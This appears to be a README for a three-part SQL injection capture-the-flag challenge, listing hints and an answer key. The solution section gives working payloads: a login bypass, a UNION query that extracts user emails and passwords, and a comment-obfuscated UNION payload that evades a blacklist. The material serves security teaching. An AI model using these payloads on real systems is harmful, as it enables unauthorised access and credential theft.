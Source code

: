 # Scrabble Quick Locator Interactive

## Challenges
1. `Scrabble Quick Locator Interactive 1`
   - Description: `Bypass the login and get the flag!`
   - Hint: `I love SQLI! Such a nice website!`
2. `Scrabble Quick Locator Interactive 2`
   - Description: `Find the original users's password!`
   - Hint: `Perhaps a UNION of techniques is needed...`
3. `Scrabble Quick Locator Interactive 2`
   - Description: `Find the result of the match in matches.php`
   - Hint: `A blacklist? Nothing can stop a true hacker! May the OWASP be with you!`

## Challenges Specifics
1. Simple SQLi in Login
2. SQLi + union in WordSearch to leak Flag table
3. SQLi + blacklist to leak result field

## Solution
1. login.php => `' or 1=1 #`
2. index.php => `' union select email, pass from users #`
3. matches.php => `'/**/union/**/select/**/result,p1,p2/**/from/**/matches/**/#`
